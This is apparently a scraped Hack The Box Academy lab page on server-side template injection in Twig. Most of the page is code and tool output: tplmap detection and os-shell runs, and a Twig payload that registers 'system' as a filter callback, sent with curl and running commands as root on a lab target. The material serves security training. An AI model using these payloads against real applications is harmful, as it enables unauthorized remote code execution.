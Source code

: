<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/145/section/1307
// Platform Version: V1
// Module ID: 145
// Module Name: Server-side Attacks
// Module Difficulty: Medium
// Section ID: 1307
// Section Title: SSTI Exploitation Example 1
// Page Title: Hack The Box - Academy
// Page Number: 15
-->

# SSTI Exploitation Example 1

**Module Name:** Server-side Attacks **Page Number:** 15

#### 

#### SERVER-SIDE ATTACKS

# SSTI Exploitation Example 1

![https://academy.hackthebox.com/storage/modules/145/img/twig1.png](https://academy.hackthebox.com/storage/modules/145/img/twig1.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig2.png](https://academy.hackthebox.com/storage/modules/145/img/twig2.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig3.png](https://academy.hackthebox.com/storage/modules/145/img/twig3.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig6.png](https://academy.hackthebox.com/storage/modules/145/img/twig6.png)

![https://academy.hackthebox.com/storage/modules/145/img/twig_.png](https://academy.hackthebox.com/storage/modules/145/img/twig_.png)

``` php
{{_self.env.display("TEST")}}
```

![https://academy.hackthebox.com/storage/modules/145/img/twig7.png](https://academy.hackthebox.com/storage/modules/145/img/twig7.png)

#### tplmap.py

``` shell-session
ndefstathiou@htb[/htb]$ git clone https://github.com/epinna/tplmap.git
ndefstathiou@htb[/htb]$ cd tplmap
ndefstathiou@htb[/htb]$ pip install virtualenv
ndefstathiou@htb[/htb]$ virtualenv -p python2 venv
ndefstathiou@htb[/htb]$ source venv/bin/activate
ndefstathiou@htb[/htb]$ pip install -r requirements.txt
ndefstathiou@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

#### Payload

``` php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
```

#### cURL - Interacting with the Target

``` shell-session
ndefstathiou@htb[/htb]$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
  <link rel="stylesheet" type="text/css" href="css/default.css" media="screen"/>
  <title>SSTI</title>
</head>
<body>
<div class="container">
  <div class="main">
    <div class="header">
      <div class="title">
        <h1>I'm here to say hello</h1>
      </div>
    </div>
    <div class="content">
 

<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>

        </div>    
        <div class="clearer"><span></span></div>
    </div>
    <div class="footer">Break me!</div>
</div>
</body>
```

#### tplmap.py - OS Shell

``` shell-session
ndefstathiou@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Run commands on the operating system.

Linux $
```

![https://academy.hackthebox.com/storage/modules/145/img/twig8.png](https://academy.hackthebox.com/storage/modules/145/img/twig8.png)

# 

# 

#### Questions

####